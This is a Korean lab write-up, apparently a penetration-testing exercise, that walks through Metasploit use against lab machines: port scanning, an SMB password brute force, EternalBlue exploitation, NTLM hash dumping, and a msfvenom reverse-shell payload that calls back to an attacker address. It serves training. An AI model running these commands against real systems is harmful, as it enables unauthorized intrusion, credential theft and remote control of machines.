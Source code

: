 # Metasploit

> 본 실습은 Metasploit Framework를 활용하여 정보 수집, 취약점 분석, 익스플로잇, 사후 활동까지 전 과정을 수행하고 문서화한 것입니다.

---

## 1. Metasploit 이란?

Metasploit은 정보 수집부터 취약점 공격, 그리고 공격 이후 사후 작업까지 침투 테스트 전 과정을 지원하는 강력한 도구입니다.

Metasploit Framework는 다양한 모듈과 도구들이 모여 있는 프레임워크로, 주로 침투 테스트 및 취약점 분석, Exploit 개발 등에 사용됩니다.

- **주요 구성 요소**
  - **msfconsole**: 명령줄 인터페이스
  - **Modules**: exploits, scanners, payloads 등 다양한 기능 제공
  - **Tools**: 독립 도구 (취약점 연구 및 침투 테스트 지원)
  - **msfvenom**: 페이로드 생성 도구
  - **pattern_create / pattern_offset**: 익스플로잇 개발 지원 도구

---

## 2. 정보 수집

### 2.1 포트 스캔

- 명령어:
```bash
nmap -sV 10.10.110.43
```

- 결과:
  - 총 5개 포트 열림 확인

![포트 스캔 결과](./screenshots/nmap_port_scan.png)

---

### 2.2 Web 서버 정보 수집

- 8000번 포트에서 어떤 서비스가 실행 중인지 확인
- Metasploit 모듈: `auxiliary/scanner/http/http_version`

- 설정:
```bash
set rhosts 10.10.110.43
set rport 8000
run
```

![HTTP 버전 확인](./screenshots/http_version_scan.png)

- 결과: WebFS 1.21 웹 서버 사용 확인

---

## 3. SMB Brute-force 및 인증 우회

- Metasploit 모듈: `auxiliary/scanner/smb/smb_login`
- 설정:
```bash
set rhosts 10.10.110.43
set smbuser penny
set pass_file /usr/share/wordlists/metasploit/MetasploitWordlist.txt
run
```

![SMB 로그인 설정](./screenshots/smb_login_setup.png)

- 결과: `penny:leo1234` 계정 인증 성공

![SMB Brute-force 성공](./screenshots/smb_bruteforce_success.png)

---

## 4. Exploitation (익스플로잇)

### 4.1 운영체제 버전 파악

- 명령어:
```bash
nmap -sV -T4 10.10.192.251
```

- 결과: Windows 7 ~ 10 운영 체제 추정

![OS 스캔 결과](./screenshots/windows_os_version_scan.png)

- 추가 모듈: `auxiliary/scanner/smb/smb_version` 사용하여 정확한 버전 확인

![SMB 버전 확인](./screenshots/smb_version_detected.png)

- 최종 결과: Windows 7 Professional SP1

---

### 4.2 EternalBlue 취약점 공격

- 모듈: `exploit/windows/smb/ms17_010_eternalblue`
- 명령어:
```bash
set rhosts 10.10.192.251
set rport 445
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

- 결과: Meterpreter 세션 획득

![Meterpreter 세션 성공](./screenshots/meterpreter_session_opened.png)

- flag.txt 파일 검색 및 열람 성공

![Flag 파일 획득](./screenshots/flag_file_found.png)

---

### 4.3 사용자 해시 덤프

- 명령어:
```bash
hashdump
```

- pirate 사용자 NTLM 해시 추출 성공

![Hashdump 결과](./screenshots/hashdump_ntlm_hashes.png)

---

## 5. Msfvenom을 활용한 리버스 쉘 획득 (Linux 대상)

### 5.1 SSH 접속

- 문제에 나와있는 아이디 비밀번호를 통해 murphy 사용자로 SSH 접속 성공

![SSH 접속 및 루트 상승](./screenshots/murphy_ssh_login_success.png)

### 5.2 리버스 쉘 생성 및 실행

- msfvenom 명령어:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.21.63.129 LPORT=4444 -f elf > rev_shell.elf
```

- 생성된 파일 확인:

![리버스 쉘 페이로드 생성](./screenshots/msfvenom_rev_shell.png)

- murphy 사용자 sudo su로 루트 권한 상승 후 전송 및 실행 준비 완료

![파일 전송 및 실행권한 부여](./screenshots/rev_shell_elf_transfer.png)

### 5.3 리버스 쉘 수신 및 Meterpreter 세션 획득

- 모듈: `exploit/multi/handler`
- 설정 후 exploit 실행

![리버스 쉘 세팅](./screenshots/reverse_shell_handler.png)

- 결과: Meterpreter 세션 열림

![최종 Meterpreter 세션 획득](./screenshots/meterpreter_reverse_shell.png)

---

## 6. 배운 점

- 포트 스캔 및 서비스 식별 과정의 중요성을 체감했다.
- Metasploit 모듈 구조와 옵션 설정 방법을 익혔다.
- SMB 취약점을 통한 인증 우회 및 시스템 접근을 경험했다.
- EternalBlue 공격 시나리오를 실습하여 실제 취약점 악용 방법을 이해했다.
- msfvenom을 통한 리버스 쉘 생성 및 수신 과정을 체득했다.
- 초기 정찰(Enumeration) 단계가 침투 성공의 핵심임을 체감했다.

---

## 7. 실습 세부 정보 (Environment)

- 실습 날짜: 2025-04-13 ~ 2025-04-15
- 실습 환경: Kali Linux 2023.4
- 사용 도구:
  - **nmap**: 네트워크 포트 및 서비스 스캔
  - Metasploit Framework (msfconsole, msfvenom):
   - **msfconsole**: Metasploit Framework의 메인 인터페이스로 모듈 검색, 설정, 실행
   - **msfvenom**: 리버스 쉘 등의 페이로드 생성 도구
  - 다양한 Metasploit Modules (auxiliary, exploit, payload):
   - **auxiliary 모듈**: 정보 수집, 스캐닝 및 인증 크랙(예: smb_login, smb_version)
   - **exploit 모듈**: 취약점(예: EternalBlue) 공격 및 원격 코드 실행
   - **payload 모듈**: 시스템 침투 시 사용하는 코드(예: meterpreter/reverse_tcp)



